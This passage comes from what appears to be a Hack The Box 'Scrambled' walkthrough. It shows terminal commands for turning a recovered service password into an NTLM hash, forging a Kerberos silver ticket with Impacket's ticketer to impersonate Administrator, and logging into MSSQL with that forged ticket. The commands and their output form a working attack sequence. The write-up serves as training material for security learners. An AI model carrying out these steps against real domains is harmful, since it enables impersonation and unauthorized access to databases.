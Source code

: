 ## SQL Admin Hash

Next we need an NTLM hash of the sqlsrv account password we found earlier:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# iconv -f ASCII -t UTF-16LE <(printf "Pegasus60") | openssl dgst -md4
(stdin)= b999a16500b87d17ec7f2e2a68778f05
```

## Silver Ticket

We have enough information to create a silver ticket. [This](https://en.hackndo.com/kerberos-silver-golden-tickets/) is a good article that explains what silver and golden tickets are if you're interested in learning more.

Let's use Impacket's ticketer:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# impacket-ticketer -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator
Impacket v0.10.1.dev1+20220708.213759.8b1a99f7 - Copyright 2022 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache

┌──(root㉿kali)-[~/htb/scrambled]
└─# export KRB5CCNAME=Administrator.ccache
```

## MS SQL Client

Here we've created a silver ticket which we can use to impersonate the administrator account. Now we can use the Impacket MSSQLClient script to connect to MSSQL using our Kerberos ticket:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# mssqlclient.py dc1.scrm.local -k
Impacket v0.10.1.dev1+20220708.213759.8b1a99f7 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL> 
```
